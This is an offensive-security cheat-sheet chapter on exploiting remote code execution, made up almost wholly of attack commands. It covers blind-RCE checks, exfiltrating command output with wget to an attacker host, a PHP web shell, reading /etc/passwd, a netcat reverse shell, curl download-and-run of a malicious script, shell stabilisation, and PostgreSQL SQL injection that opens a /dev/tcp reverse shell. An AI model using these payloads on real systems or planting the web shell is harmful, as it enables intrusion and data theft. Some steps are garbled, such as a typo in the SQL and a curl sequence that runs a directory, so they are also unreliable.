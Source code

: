 # (PART) Vuln exploit & Gaining Access {-}

# Beyond Remote Code Execution {-}

**Remote code execution** occurs after some vulnerabilities exploitation and allows users to execute
operating system commands on a remote system. 

You always have to be aware of command type execution language. Sometimes bash command are not working, so try with
languages. If the website is in php try to call phpinfo(); for example. Then you will know that your remote code execution will
look like system('whoami');

# Checking if code execution occurs {-}

Sometimes attacker don't realy know if remote code execution occurs because no direct output are visible
to him. Here we will see some technics to know if code execution runs or not.

## Time sleep technic {-}

```bash
GET /script.php?cmd=sleep+5&ok=ok HTTP/1.1
```

## Check network connectivity {-}

Lets try to ping the attacker machine, attacker can use wireshark or tcpdump.

On the attacker machine listen to icmp connection

```bash
tcpdump icmp
```
remote code execution ping

```bash
ping -c 5 <attacker ip>
```

## Use wget and netcat to execute command {-}

1. listener (attacker)

    ```bash
    nc -nlvp 443
    ```
    > [!] NOTE: use `rlwrap nc -nlvp 443` for windows machines
    
2. powned (victim)

    ```bash
    wget http://<pirate_ip>:443/`whoami`
    ```

> [ ! ] NOTE: for big files or also for php files use the | base64 command 
> ```wget http://<pirate_ip>:443/`id|base64` ```


# Visible remote code execution {-}

**Visible remote code execution** can be performed with code looking like that:

```php
<?php
echo "<html>";
echo "<pre>";
echo "<form method=GET><input type=text name=cmd style='width:400px;'>";
echo "<input type=submit value=Execute style='height:34px;'></form>";
$a = system($_GET["cmd"]);
echo "</pre></html>";
?>
```

When the remote code execution response is visible, there are some things to check:  

- Which user serves the service  
- Where  
- Interesting files content  
- Binaries  


```bash
ifconfig
whoami
id
pwd
cat /etc/passwd
cat /etc/group
which python
which curl
which nc
which wget
```

# Gaining access throw remote code execution {-}

## Listen and connection with netcat {-}

**Netcat** also known as **nc** is a utility that allows to open TCP or UDP connections throw the network.

How it work:

1. listener (attacker)  

    ```bash
    nc -nlvp 443
    ```

1. powned (victim)  

    ```bash
    nc -e /bin/bash <pirate_ip> 443
    ```

## Connection with curl {-}

1. attacker http server (attacker)  

    ```bash
    python -m http.server 9090
    ```

1. powned (victim)  

    ```bash
    mkdir /tmp/r
    curl http://<pirate_ip>:9090/reverse_tcp_malicious.sh -o /tmp/r
    chmod +x /tmp/r/reverse_tcp_malicious.sh
    ```

1. listener (attacker)  

    ```bash
    nc -nlvp 443
    ```

1. powned (victim)  

    ```bash
    /tmp/r
    ```

## Spawning a terminal from a shell {-}

After a successfull connection it's important to prepare the shell to be able to work confortably.
The following command are always the same:

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

> [ ! ] Note: stty -a is done in the attacker shell to know rows and columns size


# Use SQL Injection for create a reverse shell {-}

## Postgresql {-}

1. Check the db VERSION

    ```
    ' UNION SELECT NULL, NULL, NULL, NUUL, VERSION() --
    ```

1. Create a table for execute commands

    ```
    '; CREATE TABLE cmd_exec(cmd_output text) --
    ```

1. Initiate a reverse shell

    ```
    '; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.10.10/443 0>&1'''; --
    ```


